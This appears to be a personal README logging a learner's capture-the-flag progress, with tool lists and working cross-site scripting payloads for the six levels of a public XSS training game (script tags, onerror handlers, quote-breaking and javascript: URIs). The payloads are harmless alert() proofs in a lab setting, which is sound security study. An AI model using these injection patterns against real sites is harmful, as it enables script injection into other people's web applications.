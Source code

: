 # My CTF Journey

Welcome to my Capture The Flag (CTF) learning journey! Here, I document the challenges I've solved and the skills I've gained in the world of cybersecurity.


## Network Security

### CTF 1

**Tools:**
- Nmap
- Wireshark
- Metasploit

**Knowledge Base:**
[Link to Network Security Knowledge Base](#)

---

## Web Application Security
### XSS
**Sources**
- xss-games.appspot
- bugpoc
- portswigger
- tryhackme
##### CTF 1 : [XSS-GAMES.APPSPOT](https://medium.com/@onehackman/learning-xss-part-1-reflected-xss-brief-concept-techniques-challenge-walkthrough-85f6b165541b)
**Level 1**
```javascript
<script>alert()</script>
```

**Level 2**
```javascript
<img src=x onerror=alert(1)>
```

**Level 3**
```javascript
https://xss-game.appspot.com/level3/frame#23' onerror=alert()>
```

```javascript
23' onerror=alert()>
```

**Level 4**
```javascript
1');alert('1
```

**Level 5**
```javascript
javascript:alert()
```

**Level 6**
```javascript
frame#data:text/plain,alert()
```
##### CTF 2
**Tools:**
- Burp Suite
- OWASP Zap
- SQLMap

**Knowledge Base:**
[Link to Web Application Security Knowledge Base](#)

---

## Cryptocurrency Security

### CTF 3

**Tools:**
- Ganache
- Remix IDE
- MythX

**Knowledge Base:**
[Link to Cryptocurrency Security Knowledge Base](#)

